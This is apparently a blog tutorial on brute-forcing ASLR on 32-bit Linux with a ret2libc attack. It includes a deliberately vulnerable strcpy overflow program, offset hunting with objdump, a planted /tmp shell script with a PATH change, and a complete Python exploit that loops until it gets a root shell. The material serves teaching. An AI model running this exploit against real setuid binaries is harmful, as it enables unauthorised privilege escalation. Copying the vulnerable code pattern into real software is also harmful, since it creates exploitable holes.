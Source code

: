 ```yaml
---
layout: post
title: ASLR Bruteforce
categories: [pwn]
tags: [pwn, asm]
description: How to defeat ASLR on a 32 bits Linux system.
---
```


# 1. Surroundings

```bash
$ uname -a
Linux debian 3.16.0-4-amd64 #1 SMP Debian 3.16.39-1+deb8u2 (2017-03-07) x86_64 GNU/Linux

$ lsb_release -a
No LSB modules are available.
Distributor ID:	Debian
Description:	Debian GNU/Linux 8.7 (jessie)
Release:	8.7
Codename:	jessie

$ gcc --version
gcc (Debian 4.9.2-10) 4.9.2

$ /lib32/libc.so.6 
GNU C Library (Debian GLIBC 2.19-18+deb8u7) stable release version 2.19, by Roland McGrath et al.
```

# 2. Explanation
Today I will show you a method to bruteforce the ASLR. This method is very usefull because it can bypass NX and ASLR protections together! But this method is only available in a x86 or less architecture because of the addresses lenght. The step is very similar as a Ret2libc attack but in our case we will take a LibC base reference address and loop the binary execution while the ASLR isn't set to our LibC reference's address.

# 3. Vulnerable binary

```c
#include <stdio.h>
#include <string.h>

// gcc main.c -z execstack -fno-stack-protector -m32

void print_name(char *str)
{
  char name[64];

  strcpy(name, str);
  printf("Welcome %s!", name);
}

int main(int ac, char **av)
{
  if (ac != 2)
    {
      printf("Usage : ./a.out [name]\n");
      return 1;
    }
  print_name(av[1]);
  return 0;
}
```

```bash
$ checksec --file a.out       
RELRO           STACK CANARY      NX            PIE          RPATH      RUNPATH	FORTIFY	Fortified Fortifiable  FILE
No RELRO        No canary found   NX enabled    No PIE       No RPATH   No RUNPATH   No	0		   4   a.out
```

It's a very simple peace of code with an overflow in "print_name" function.

# 4. The payload
The payload is very easy. It will look like:

```bash
+-------------------+
|      padding      |
+-------------------+
|  system address's |
+-------------------+
|   exit address's  |
+-------------------+
| /bin/sh address's |
+-------------------+
```

Well, it's a Ret2libc as we've seen in the previous article. The particularity is that we don't know any of the addresses we needed. So we first need to know the LibC address's to deduct the addresses we needed.

If we check the library addresses we can see something very interesting:

```bash
$ ldd a.out|grep libc
	libc.so.6 => /lib32/libc.so.6 (0xf757f000)

$ ldd a.out|grep libc
	libc.so.6 => /lib32/libc.so.6 (0xf75fb000)

$ ldd a.out|grep libc
	libc.so.6 => /lib32/libc.so.6 (0xf7555000)

ldd a.out|grep libc
	libc.so.6 => /lib32/libc.so.6 (0xf751e000)
```

There are only 8 bits of the Libc address's which evolves. So if we take randomly one of these addresses, there is a lot of chance that we will get it an other time!

So we've the Libc address, now we need the system/exit offset functions to add it to our base Libc address to know the final addresses function. I will use objdump to get the offsets:

```bash
$ objdump -D /lib32/libc.so.6|egrep "<exit>:|<__libc_system>:"
000311b0 <exit>:
0003e3e0 <__libc_system>:
```

It's OK for the addresses offsets. Now we need a string for the first system function argument.
To remind: 

```c
int system(const char *command);
```

We will use a little trick to do this. We will use a string from the binary section where the addresses don't change (like rodata section). The string need to end with a null byte. ('\0') I'm habits to use a common binary string in the dynstr section:

```bash
$ objdump -s a.out -j .dynstr|grep "gmon"
 804825c 5f676d6f 6e5f7374 6172745f 5f00474c  _gmon_start__.GL
```

Great, the string "\_gmon\_start\_\_" will be perfect. As this command does not exist actually, we will create it. The file "/tmp/\_gmon\_start\_\_" will contain:

```bash
#!/bin/sh
/bin/sh
```

No more or less! After did it, we set the correct right to the file and we add "/tmp" repertory to the $PATH environment variable:

```bash
chmod 777 /tmp/_gmon_start__ && PATH=$PATH:/tmp
```

As you might understand, we will execute a command we've create, named "\_gmon\_start\_\_" which will execute a /bin/sh.

It's OK for this part! The last step before writting the exploit is to get the padding. Another time thanks to objdump: 

```bash
$ objdump -D a.out|grep "<print_name>:" -A 17 -n              
372:0804845b <print_name>:
373- 804845b:	55                   	push   %ebp
374- 804845c:	89 e5                	mov    %esp,%ebp
375- 804845e:	83 ec 48             	sub    $0x48,%esp
376- 8048461:	83 ec 08             	sub    $0x8,%esp
377- 8048464:	ff 75 08             	pushl  0x8(%ebp)
378- 8048467:	8d 45 b8             	lea    -0x48(%ebp),%eax
379- 804846a:	50                   	push   %eax
380- 804846b:	e8 b0 fe ff ff       	call   8048320 <strcpy@plt>
381- 8048470:	83 c4 10             	add    $0x10,%esp
382- 8048473:	83 ec 08             	sub    $0x8,%esp
383- 8048476:	8d 45 b8             	lea    -0x48(%ebp),%eax
384- 8048479:	50                   	push   %eax
385- 804847a:	68 70 85 04 08       	push   $0x8048570
386- 804847f:	e8 8c fe ff ff       	call   8048310 <printf@plt>
387- 8048484:	83 c4 10             	add    $0x10,%esp
388- 8048487:	c9                   	leave  
389- 8048488:	c3                   	ret    
```

You can see at line 378 that our buffer is at 0x48 bytes from the base pointer. So we just need to add four bytes to this value to also erase ebp value. A little "echo" tricks to convert value from a base to another:

```bash
$ echo "ibase=16; 4C"|bc
76
```

We can now write our exploit!

# 5. The exploit
```python
#!/usr/bin/env python
# coding: utf-8

import struct
import subprocess

base = 0xf756e000           # base libc address's
system_offset = 0x0003e3e0  # system offset function
exit_offset = 0x000311b0    # exit offset function
binsh =  0x804825c          # string addresse's (_gmon_start__)

system_addr = base + system_offset # final system address's
exit_addr = base + exit_offset     # final exit address's

payload = "A" * 76
payload += struct.pack("<I",system_addr)
payload += struct.pack("<I",exit_addr)
payload += struct.pack("<I",binsh)

while (1):
    result = subprocess.call(["./a.out", payload])	
    if not result:
    	print "Done"
    	exit(0)
    else:
    	print "KO\n"
```

# 6. Exploitation
Sometimes the input/output failed, so you need to retry the exploitation to correct it.

A root shell per favor!

```bash
$ python exploit.py
...
KO

KO

KO

$ id
uid=1000(user) gid=1000(user) euid=0(root) groups=1000(user)
```

Done.
